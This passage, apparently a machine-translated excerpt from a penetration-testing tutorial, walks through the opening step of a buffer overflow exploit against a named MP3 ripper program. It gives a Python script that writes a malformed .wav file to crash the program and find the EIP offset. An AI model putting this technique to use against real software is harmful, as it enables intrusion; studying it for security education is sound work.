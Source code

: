 ![Understanding basic buffer overflow](img/image00382.jpeg)

既然您了解了将数据注入缓冲区并使其溢出的基本知识，我们就可以针对一个真正易受攻击的解决方案。在这个例子中，我们将使用免费的 MP3 CD 裂土器程序。这个程序在开发一个漏洞时提供的实际价值很少，但是开发它是一个相对简单的练习。

# 编写基本缓冲区溢出漏洞

我们将利用免费 MP3 CD 裂土器软件程序的第 1 版。为此，我们需要从该位置[下载并安装产品 http://free-mp3-cd-ripper.en.softonic.com/](http://free-mp3-cd-ripper.en.softonic.com/) 。为了利用这个程序的弱点，我们将使用下面的 Python 脚本，它将生成一个恶意的.wav 文件，可以上传到程序中。数据将被解释，并将创建一个溢出条件，我们可以观察并尝试定制和构建一个漏洞。如前所述，我们将把许多不同的字符加载到此文件中，以便我们可以对存储的 EIP 值的相对位置进行 guestimate。

```
#!/usr/bin/env python
import struct
filename="exploit.wav"
fill ="A"*4000
fill +="B"*1000
fill +="C"*1000
exploit = fill
writeFile = open (filename, "w")
writeFile.write(exploit)
writeFile.close()
```

此脚本将用 4000 As、1000 Bs 和 1000 Cs 填充恶意 wave 文件。现在，打开具有Immunity功能的程序，如下所示：

![Writing a basic buffer overflow exploit](img/image00383.jpeg)
